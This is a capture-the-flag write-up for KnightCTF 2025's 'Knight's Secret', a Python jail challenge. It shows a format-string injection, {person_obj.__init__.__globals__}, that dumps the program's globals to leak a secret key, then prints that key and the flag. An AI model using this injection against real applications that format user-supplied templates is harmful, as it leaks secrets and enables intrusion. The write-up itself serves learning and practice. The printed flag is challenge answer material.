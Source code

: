 ```yaml
---
title: "Knight's Secret"
description: ""
pubDate: 2025-01-22
ctf: "KnightCTF 2025"
category: "pwn"
author: "sealldev"
section: "CTFs"
image: "images/25-knight/icon.png"
---
```




Note: This was less of a typical Pwn and was a pyjail.

We connect to the server and see this:

```bash
└─$ nc 45.56.68.122 1337
==================================================
Welcome to the Knight's Secret!
The castle's vault holds a secret key, protected within the CONFIG dictionary.
You are a knight tasked with proving the strength of the vault's defenses.
To succeed, you must craft an input to reveal the hidden key within the system.
You will be provided with a user object representing a knight, with attributes 'name' and 'role'.
Once you discover the key, input it again to receive the banner of victory.

Example of a safe template: 'Greetings, {person_obj.name}, the {person_obj.role}.'
Type 'hint' if you need guidance or 'exit' to withdraw from the quest.
==================================================

Enter your secret:
```

Our aim is to find the `CONFIG` dictionary.

We can see entering just the object shows an instance, so we know this is Python:

```
Enter your secret: {person_obj}
Output: <__main__.Person object at 0x703c0aa16480>
```

Using the [PyJail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet) I use `.__init__.__globals__` to get the `CONFIG` dictionary.

```
Enter your secret: {person_obj.__init__.__globals__}
Output: {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7e23d44d78f0>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/challenge/challenge.py', '__cached__': None, 'CONFIG': {'KEY': '_KNIGHTSECRET2025_'}, 'Person': <class '__main__.Person'>, 'fun': <function fun at 0x7e23d44be340>, 'main': <function main at 0x7e23d429cd60>}
```

We can then enter the secret for the flag.

```
Enter your secret: _KNIGHTSECRET2025_
Congratulations, noble knight! You have unveiled the vault's secret.
Here is your banner of victory: KCTF{_c0ngRaT5_Kn1GHT_Y0U_g07_THE_secreT_}
```

Flag: `KCTF{_c0ngRaT5_Kn1GHT_Y0U_g07_THE_secreT_}`
